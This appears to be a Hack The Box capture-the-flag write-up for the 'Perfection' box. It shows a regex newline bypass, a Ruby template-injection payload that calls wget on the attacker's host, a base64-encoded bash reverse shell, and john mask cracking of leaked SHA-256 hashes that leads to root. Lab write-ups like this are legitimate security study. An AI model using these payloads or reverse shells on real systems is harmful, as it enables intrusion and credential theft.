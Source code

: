 ```yaml
---
layout: post
title: "HTB: Perfection"
box: perfection
img: /img/perfection/perfection
author: Andrew Cherney
date: 2024-07-06
tags: htb easy-box linux webapp ruby john season-4
icon: "assets/icons/perfection.png"
post_description: "Short and simple box. First find a way to inject ruby commands into an online calculator, then find mail with a reference to a password scheme and the corresponding db for cracking to sudo into root."
---
```


# Summary

{{ page.post_description }}

# Enumeration

```
nmap -oA open_ports.nmap -p- 10.10.11.253 -Pn

Starting Nmap 7.92 ( https://nmap.org ) at 2024-03-08 07:47 CST
Nmap scan report for 10.10.11.253
Host is up (0.053s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```
sudo nmap -sC -sV -T4 -O -p22,80 10.10.11.253

Starting Nmap 7.92 ( https://nmap.org ) at 2024-03-08 07:53 CST
Nmap scan report for 10.10.11.253
Host is up (0.050s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 5.3 - 5.4 (94%), Linux 2.6.32 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80 - http

{% include img_link src="/img/perfection/perfection_front_page" alt="front_page" ext="png" trunc=600 %}

![weighted grades calculator]({{ page.img }}_weight_calculator.png)

Right out the gates we can see this uses WEBrick 1.7.0 and that this calculator portion of the site has a broad attack surface to test. 

![sinatra back end]({{ page.img }}_weighted_calc_backend.png)

Digging into the inspect element it seems the backend is running off of Sinatra. Cursory glances at search engines didn't reveal any pressing vulnerabilities or exploits for either WEBrick or Sinatra so I opted to check the data being sent to the Sinatra endpoint.

Sinatra allows a webdev to define routes and run code or provide web pages as a result. In this case here we are POSTing 5 grades, 5 categories and 5 weights. After testing there is some basic character filtering and the grade/weight values require numeric values. Luckily the category tab could still be vulnerable here.

# User as susan

## Abusing regex

A common staple of these character filters is using regex to define how a provided string should be handled. Typically you might see this from PHP using preg_match [and you can find more in my Zipping POST about that](https://cybercherney.github.io/2024/01/13/HTB_Zipping.html). A common way to fail to sanitize inputs with regex is to start the filtering at the beginning of the string (with ^), and failing to end the string (with $). With the lack of a defined end you can start a new line (%0A) then bypass every character being filtered. 

So to test this hypothesis we can add a simple payload of `category1=aaa%0A'` in category1 and check the return value:

```
</form>
Your total grade is 100%<p>aaa
': 100%</p>
```

Great we can send any characters we want. This webapp is using Ruby as confirmed by Wappalyzer and [https://cheatsheetseries.owasp.org/cheatsheets/Ruby_on_Rails_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Ruby_on_Rails_Cheat_Sheet.html) is a place you can look at ways to run commands/code in Ruby. What stood out to me was the `<%= %>` in combination with `system("cmd")` to potentially run commands through Ruby. 

```
final payload

grade1=100&weight1=100&category2=N%2FA&grade2=0&weight2=0&category3=N%2FA&grade3=0&weight3=0&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0&category1=aaa%0A<%25%3d+system("wget+http%3a//10.10.14.3%3a8081/test")+%25>
```

I did get a request on my python server, forgot to grab the output but know this exploit functions as intended. From what I tested the placement of category1 doesn't matter but I placed it at the end for visibility of the exploit. Next I can place a base64 encoded reverse shell and get the user running this ruby site. 

```
command

echo+'YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4zLzc3NzcgMD4mMQ%3d%3d'+|+base64+-d+|+bash
```

```bash
nc -nvlp 7777

Listening on 0.0.0.0 7777
Connection received on 10.10.11.253 57362
bash: cannot set terminal process group (989): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ whoami
whoami
susan
susan@perfection:~/ruby_app$ cat ~/user.txt
cat ~/user.txt
1e4d2c637d3dd6------------------
```

# Root

First things here we can see the user we are is susan and this app is running off of the home directory. In this directory there is also a Migration database with credentials inside.

```bash
susan@perfection:~$ ls
ls
Migration  ruby_app  user.txt
susan@perfection:~$ ls Migration
ls Migration
pupilpath_credentials.db
susan@perfection:~$ strings Migration/*
strings Migration/*
SQLite format 3
tableusersusers
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
Stephen Locke154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
David Lawrenceff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
Harry Tylerd33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
Tina Smithdd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

Additionally we are in the sudo user group. 

```bash
susan@perfection:~/ruby_app$ groups
groups
susan sudo
```

I attempted to crack the password as is but it wasn't in rockyou. The hash type was SHA-256 as identified by [tunnelsup hash-analyzer](https://www.tunnelsup.com/hash-analyzer/). I turned to other places to look since nothing in LinEnum stood out to me. 

That's when I found mail in var/spool for susan referencing the migration database:

```bash
susan@perfection:~/ruby_app$ cat /var/spool/mail/susan
cat /var/spool/mail/susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

With this new format in mind we can attempt to crack this password using hashcat or john. I prefer john as my pentesting happens in a VM and hashcat isn't partial to interfacing with your GPU through a vm. 

To generate passwords for john we can use two methods, a rule or a mask. Rules are placed into a conf file and are used better when we want to reuse them, ie for appending years. Masks in our case can do exactly this one off generation. To define a mask in john we have the option to use regex or their defined method, which the latter is far more appealing. Since we need to go up to 9 digits we need 9 `?d` and john will go through all of the options permitting the password random number is 9 digits long. If we get no hits decrement the digits by 1 and try again. 

```bash
john hash --format=raw-sha256 --mask=susan_nasus_?d?d?d?d?d?d?d?d?d

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 SSE2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
susan_nasus_413759210 (?)
1g 0:00:00:04 DONE (2024-03-08 10:48) 0.2192g/s 22477Kp/s 22477Kc/s 22477KC/s susan_nasus_538859210..susan_nasus_313679210
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
```

Now we sudo su and get root.

```bash
susan@perfection:~/ruby_app$ sudo su
sudo su
root@perfection:/home/susan/ruby_app# cat /root/root.txt
cat /root/root.txt
cdc3cd64119f--------------------
```
